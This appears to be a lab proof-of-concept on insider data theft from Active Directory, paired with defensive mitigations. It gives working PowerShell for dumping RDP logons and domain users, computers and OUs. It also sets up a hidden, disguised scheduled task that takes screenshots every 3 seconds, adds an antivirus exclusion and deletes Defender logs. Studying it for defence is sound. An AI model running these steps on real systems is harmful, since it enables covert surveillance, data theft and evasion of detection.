






# POC 1 - Data Exfiltration from Microsoft’s Active Directory

## Description

The Microsoft Active Directory provides a directory service infrastructure that is able to help Organisations manage their resources throughout the network.

This directory service aims to provide a simplified and efficient systems administration by allowing users to consolidate user accounts, computer accounts, group accounts and more into objects and resources.

While this directory service provide a simplified manner of systems administration, it also provides threat actors with easy access to resource when misused.

This attack aims to outline the threats posed to the organisation from a data exfiltration threat making use of both the PowerSploit module and PowerShell. 

## Machines Used

|Machine Name|Machine IP|Type of Machine|Domain|
|--|--|--|--|
|Windows Server 2022|192.168.8.10|Domain Controller|c4rr0ting.com|
|Windows 10 Client|192.168.8.11|Client|c4rr0ting.com|

## Users

|User Name|Domain|Group|
|--|--|--|
|CARR0T|c4rr0ting.com|Administrator|
|Test|c4rr0ting.com|Users|
|S1|c4rr0ting.com|Sales|
|S2|c4rr0ting.com|Sales|
|S3|c4rr0ting.com|Sales|

## Steps to Carry Out Exploitation

There are a total of 3 steps to be caried out during the process of data exfiltration of the Microsoft Active Directory by either an insider or by an administrator with malicious intent. 

The following are the 3 steps taken during the POC.

1. [Preparation Phase](#preparations)
2. [Exploitation Phase](#exploitation)
3. [Covering Tracks Phase](#covering-tracks)

The preparation phase covers all preperatory needs inclusive of the installation of tools that can possibly prepared by the threat attacker. 

The exploitation phase outlines the steps that the insider can possibly take to both remain undetected within the machine along with achieving the targeted goal of the insider threat attacker.

The last phase which is the covering tracks phase will state how the attacker can possibly evade detection of having unauthorised access to resources and removing traces where alerts have been raised within the system.

### Preparations

1. Download the PowerSploit repository

```
https://github.com/PowerShellMafia/PowerSploit/releases/tag/v3.0.0 
```


2. Upload the PowerSploit folder into a thumbdrive or storage device


### Exploitation

1. Configure the Windows Defender as follows

```
Virus & Threat Protection > Virus & Threat Protection Settings > Manage Settings > Exclusions > Add or Remove Exclusions

Add Exclusion the following path

C:\Windows\System32\WindowsPowerShell
```


2. Navigate to the following directory and upload the various folders within the PowerSploit folder
   
```
C:\Windows\System32\WindowsPowerShell\v1.0\Modules
```


3. Execute the following PowerShell script below to extract the user data of all connections made 

```ps1
# Extracting user data from any connections users made towards the Windows Server through RDP

$RDPAuths = Get-WinEvent -LogName 'Microsoft-Windows-TerminalServices-RemoteConnectionManager/Operational' -FilterXPath '<QueryList><Query Id="0"><Select>*[System[EventID=1149]]</Select></Query></QueryList>'
[xml[]]$xml=$RDPAuths|Foreach{$_.ToXml()}
$EventData = Foreach ($event in $xml.Event)
{ New-Object PSObject -Property @{
TimeCreated = (Get-Date ($event.System.TimeCreated.SystemTime) -Format 'yyyy-MM-dd hh:mm:ss K')
User = $event.UserData.EventXML.Param1
Domain = $event.UserData.EventXML.Param2
Client = $event.UserData.EventXML.Param3
}
} $EventData | FT

# Extracting user data from connections users made towards other machines through the Windows Server using RDP

Import-Module Recon
$computerDetails = Get-ComputerDetails -ToString
$startIndex = $computerDetails.IndexOf('RDP Client Data:')
$rdpClientData = $computerDetails | Select-Object -Skip ($startIndex + 1)
Write-Host "RDP Client Data:"
$rdpClientData
```

4. Execute the following PowerShell script below to extract all users, computers and active directory information

```ps1
Import-Module ActiveDirectory

$username = [Environment]::UserName

# Output root folder path
$outputRootFolderPath = "C:\Users\$username\Documents\WindowsPowerShell\Scripts\Scripts\OU_Details"

# Create the output root folder if it doesn't exist
if (-not (Test-Path -Path $outputRootFolderPath -PathType Container)) {
    New-Item -Path $outputRootFolderPath -ItemType Directory | Out-Null
}

# Create file for all users within the domain
$allUsersFilePath = Join-Path -Path $outputRootFolderPath -ChildPath "AllUsers.txt"

if (-not (Test-Path -Path $allUsersFilePath)) {
    New-Item -Path $allUsersFilePath -ItemType File | Out-Null
}
else {
    # If file already exists, overwrite the content
    Set-Content -Path $allUsersFilePath -Value $null
}

# Create file for all computers within the domain
$allComputersFilePath = Join-Path -Path $outputRootFolderPath -ChildPath "AllComputers.txt"

if (-not (Test-Path -Path $allComputersFilePath)) {
    New-Item -Path $allComputersFilePath -ItemType File | Out-Null
}
else {
    # If file already exists, overwrite the content
    Set-Content -Path $allComputersFilePath -Value $null
}

# Get all users within the domain
$allUsers = Get-ADUser -Filter * | Select-Object Name, SamAccountName, DistinguishedName

# Display all users and write to file
Add-Content -Path $allUsersFilePath -Value "All Users within the Domain:"
$allUsers | Format-Table -AutoSize | Out-File -Append -FilePath $allUsersFilePath

# Get all computers within the domain
$allComputers = Get-ADComputer -Filter * | Select-Object Name, SamAccountName, DistinguishedName, ObjectGUID, SID

# Display all computers and write to file
Add-Content -Path $allComputersFilePath -Value "All Computers within the Domain:"
$allComputers | Format-Table -AutoSize | Out-File -Append -FilePath $allComputersFilePath

# Get all OUs
$ous = Get-ADOrganizationalUnit -Filter 'Name -like "*"' | Select-Object Name, DistinguishedName

# Iterate through each OU
foreach ($ou in $ous) {
    # Create folder for each OU
    $ouFolderPath = Join-Path -Path $outputRootFolderPath -ChildPath $ou.Name

    if (-not (Test-Path -Path $ouFolderPath -PathType Container)) {
        New-Item -Path $ouFolderPath -ItemType Directory | Out-Null
    }
    else {
        # If folder already exists, overwrite the content of the files
        Remove-Item (Join-Path -Path $ouFolderPath -ChildPath "OU_Properties.txt")
        Remove-Item (Join-Path -Path $ouFolderPath -ChildPath "OU_Users.txt")
    }

    # Create file for OU properties
    $ouPropertiesFilePath = Join-Path -Path $ouFolderPath -ChildPath "OU_Properties.txt"

    Add-Content -Path $ouPropertiesFilePath -Value "OU Name: $($ou.Name)"
    Add-Content -Path $ouPropertiesFilePath -Value "DistinguishedName: $($ou.DistinguishedName)"

    # Get settings of the OU
    $ouSettings = Get-ADObject -Filter "DistinguishedName -eq '$($ou.DistinguishedName)'" -Properties *

    # Display OU settings
    Add-Content -Path $ouPropertiesFilePath -Value "OU Settings:"
    $ouSettings | Format-Table -Property CanonicalName, CN, Created, createTimestamp, Deleted, Description, DisplayName, DistinguishedName, dSCorePropagationData, gPLink -AutoSize | Out-File -Append -FilePath $ouPropertiesFilePath
    Add-Content -Path $ouPropertiesFilePath -Value "-----------------------------------"

    # Get users within the OU
    $ouUsers = Get-ADUser -Filter * -SearchBase $ou.DistinguishedName

    # Create file for OU users
    $ouUsersFilePath = Join-Path -Path $ouFolderPath -ChildPath "OU_Users.txt"

    # Display users within the OU and write to file
    Add-Content -Path $ouUsersFilePath -Value "Users within the OU:"
    $ouUsers | Select-Object Name, SamAccountName, DistinguishedName | Format-Table -AutoSize | Out-File -Append -FilePath $ouUsersFilePath

    # Get computers within the OU
    $ouComputers = Get-ADComputer -Filter * -SearchBase $ou.DistinguishedName

    # Create file for OU computers
    $ouComputersFilePath = Join-Path -Path $ouFolderPath -ChildPath "OU_Computers.txt"

    # Display computers within the OU and write to file
    Add-Content -Path $ouComputersFilePath -Value "Computers within the OU:"
    $ouComputers | Select-Object Name, SamAccountName, DistinguishedName, ObjectGUID, SID | Format-Table -AutoSize | Out-File -Append -FilePath $ouComputersFilePath
}
```

5. Create a script with the following content and save it in a file locations where it will seem normal


File Location:

```
C:\Users\$username\Documents\WindowsPowerShell\Scripts\InstalledScriptInfos
```

File Name:

```
Backup.ps1
```

Script Content: 

```ps1
# Capture User's Screen Every 3 seconds

Import-Module Exfiltration

$username = [Environment]::UserName
$date = Get-Date -Format "dd-MM-yyyy"
$path = "C:\Users\$username\Documents\WindowsPowerShell\Scripts\Scripts\$date"


if (-not (Test-Path -Path $path -PathType Container)) {
    New-Item -Path $path -ItemType Directory -Force > $null
}

Get-TimedScreenshot -Path $path -Interval 3 -EndTime 18:00 
```

1. Open Task Scheduler and create a task with the following descriptions

**General Tab**
|Options|Value|
|--|--|
|Name|Backup PowerShell Modules|
|Description|A script to backup PowerShell Modules downloaded into the system|
|Use the user account|Default User Selected|
|When to Run|Run only when user is logged on|
|Run with highest privileges|Checked|
|Configure for|Windows Server 2022|
|Hidden|Checked|


**New Trigger Tab**
|Options|Value|
|--|--|
|Begin the task|At Startup|
|Stop the task if it runs longer than|3 days|
|Enabled|Checked|


**New Action Tab**
|Options|Value|
|--|--|
|Action|Start a program|
|Program/script|C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe|
|Add arguments (optional)|-WindowStyle hidden -File "C:\Users\CARR0T\Documents\WindowsPowerShell\Scripts\InstalledScriptInfos\Backup.ps1"|


**Conditions Tab**
|Options|Value|
|--|--|
|Start the task only if the computer is on AC power|Unchecked|


**Settings Tab**
|Options|Value|
|--|--|
|Allow Task to be run on demand|Checked|
|Run tasks as soon as possible after a scheduled start is missed|Checked|
|If the task fails, restart every|1 minute|
|Attempt to restart up to|3 times|
|Stop the task if it runs longer than|3 days|
|If the running task does not end when requested, force it to stop|Checked|
|If the task is not scheduled to run again, delete it after|Unchecked|
|If the task is already running, than the following rules applies|Do not start a new instance|


2. Run the task

3. Notice that the task is running and there are no PowerShell Windows open


### Covering Tracks

1. Remove the Windows Defender logs by navigating to the following path

```
C:\ProgramData\Microsoft\Windows Defender\Scans\History\Service
```


2. Select all files within the folder and delete the files

```
**NOTE**

If the file cannot be deleted, Manually clear the file content and save the file
```


## Possible Mitigations

1. [Disable Path Exclusions](#disable-path-exclusions)
2. [Notify Administrators of New Scheduled Tasks](#notify-administrators-of-new-scheduled-tasks)
3. [Conduct Scheduled Scans](#conduct-scheduled-scans)

### Disable Path Exclusions

The disabling of path exclusions, will ensure that all modules that are detected to be malicious will not be able to be ignored within a real time scan. 

When threat actors set a path exclusion, the path does not get scanned by the antivirus in real time protection. This means that the files will only be detected as malicious when a quick scan, full scan or custom scan is performed. 

To combat threat actors from being able to evade a real time scan, the path exclusion settings can be configured within the group policy and enforcing the changes to the devices. 

#### Steps to Disable Path Exclusions

1. Navigate to `Windows Security > Virus & Threat Protection > Virus & Threat Protection Settings > Manage Settings > Exclusions > Add or Remove Exclusions`


2. Verify that all possible malicious paths, folders and processes are removed from the list


3. Search for `gpedit` in the search bar and launch the application


4. Using the Group Policy Management Editor go to `Computer configuration`


5. Expand the tree to `Windows components > Microsoft Defender Antivirus`


6. Within the Microsoft Defender Antivirus, Locate and `Enable` the following rule - `Control whether or not exclusions are visible to Local Admins`


1. Within Microsoft Defender Antivirus, Locate `Exclusions`


8. Configure the following policies and enfoce them


9. Enforce the newly configured policy by running the following command on `Command Prompt` or `PowerShell (as Administrator)`

Command Prompt: 
```cmd
gpupdate /force
```


PowerShell: 
```ps1
Invoke-GPUpdate -Force
```


1.  Verify that the policy has been enforced by navigating to Windows Defender and ensuring that you are unable to view and or modify the list for file exclusions


### Notify Administrators of New Scheduled Tasks

While tasks are being constantly scheduled within systems to perform an update of system, scanning for malicious files, etc., threat actors can make use of scheduled tasks as an advantage to schedule exploits to run on start up or at different times of the day. 

To combat this, one method is to notify the administrators of any new scheduled tasks to allow administrators to further look into and investigate any newly scheduled task which may pose a potential threat towards the organisations active directory. 

#### Steps to Notify Administrators of New Scheduled Tasks

1. Create a PowerShell script like the following modifying the information accordingly

```ps1
# Define the event ID to monitor for task creation
$EventId = 106

# Get the latest event that matches the specified event ID from the Task Scheduler log
$Event = Get-WinEvent -MaxEvents 1 -FilterHashTable @{
    LogName = 'Microsoft-Windows-TaskScheduler/Operational'
    ID = $EventId
} | Select-Object Id, Message, MachineName, ProviderName

# Check if an event is found
if ($Event) {
    # Email configuration
    $EmailFrom = "your-email@example.com"
    $EmailTo = "recipient@example.com"
    $Subject = "Task Created Alert - $($Event.MachineName)"
    $Body = "EventID: $($Event.Id)`nSource: $($Event.ProviderName)`nMachineName: $($Event.MachineName)`nMessage: $($Event.Message)"

    # SMTP Server configuration for a generic mail server
    $SMTPServer = "mail.example.com"
    $SMTPPort = 587
    $SMTPUsername = "your-email@example.com"
    $encrypted = Get-Content c:scriptsencrypted_password.txt | ConvertTo-SecureString
    $credential = New-Object System.Management.Automation.PsCredential($SMTPUsername, $encrypted)

    # Create and configure the SMTP client
    $SMTPClient = New-Object Net.Mail.SmtpClient($SMTPServer, $SMTPPort)
    $SMTPClient.EnableSsl = $true
    $SMTPClient.Credentials = $credential

    # Send the email
    $SMTPClient.Send($EmailFrom, $EmailTo, $Subject, $Body)

    Write-Host "Email sent successfully."
} else {
    Write-Host "No matching event found."
}
```

2. Test that the email is able to be sent by running the PowerShell Script

3. Open `Event Viewer` and navigate to the following path `Applications and Services > Microsoft > Windows > Task Scheduler > Operational`


1. Filter the current log to show all logs with an `Event ID` of `106`


5. Right Click the Task and `Attach Task To This Event`


6. Create the task with the following details

**General Tab**
|Options|Value|
|--|--|
|Name|NewScriptAlert|
|Description|Alert Administrators of any new scripts created|


**New Action Tab**
|Options|Value|
|--|--|
|Action|Start a program|
|Program/script|C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe|
|Add arguments (optional)|<Path/To/File>|


7. Verify that the settings are configured as per follows


8. Check the `Open Properties dialog for the task when I click Finish` option

9. Further modify the following from the properties dialog

**General Tab**


**Conditions Tab**


**Settings Tab**


**Account Login Prompt**


10. Trigger the task and check that an email notification is triggered

### Conduct Scheduled Scans

According to the Microsoft documentation, while folders, files and processors are within the exclusion list, the exclusion list are not used in scheduled scans. These scans includes quick scan, full scan or custom scans. 

As such by conducting regularly scheduled scans, any malicious files inserted within the system will be able to be identified quickly. 

#### Steps to Conduct Scheduled Scans

1. Open Task Scheduler and navigate to `Task Scheduler Library > Microsoft > Windows > Windows Defender`


2. Check that there is a task scheduled to conduct a scan daily



3. Create a scheduled task if the task dows not exist

**General Tab**



**Triggers Tab**



**Actions Tab**
|Options|Value|
|--|--|
|Action|Start a program|
|Program/script|C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.23100.2009-0\MpCmdRun.exe|
|Add arguments (optional)|Scan -ScheduleJob -ScanTrigger 55 -IdleScheduledJob|



**Conditions Tab**



**Settings Tab**



## References

[PowerSploit](https://github.com/PowerShellMafia/PowerSploit)  
[Display computers in OU or AD group with PowerShell](https://4sysops.com/archives/get-adcomputer-display-computers-in-ou-or-ad-group-with-powershell/)  
[Exploiting Microsoft’s Active Directory](https://medium.com/offensive-security-walk-throughs/exploiting-microsofts-active-directory-47aa5eb4b47d)  
[Running PowerShell Script without displaying Window](https://stackoverflow.com/questions/1802127/how-to-run-a-powershell-script-without-displaying-a-window)  
[Removing Protection History report from Windows Defender](https://answers.microsoft.com/en-us/windows/forum/all/how-to-remove-a-protection-history-report-from/c73c5969-68fe-454e-833f-b602af0b175d)  
[Tracking and Analyzing Remote Desktop Connection Logs in Windows](https://woshub.com/rdp-connection-logs-forensics-windows/)  
[Microsoft Defender Antivirus exclusions on Windows Server](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/configure-server-exclusions-microsoft-defender-antivirus?view=o365-worldwide)  
[Triggering an Email Alert from a Windows Event](https://clusteringformeremortals.com/2018/10/28/step-by-step-how-to-trigger-an-email-alert-from-a-windows-event-that-includes-the-event-details-using-windows-server-2016/)  
[Encrypt and Store Credentials Securely for Automation](https://interworks.com/blog/trhymer/2013/07/08/powershell-how-encrypt-and-store-credentials-securely-use-automation-scripts/)  
[Schedule a Scan in Microsoft Defender](https://support.microsoft.com/en-us/windows/schedule-a-scan-in-microsoft-defender-antivirus-54b64e9c-880a-c6b6-2416-0eb330ed5d2d)
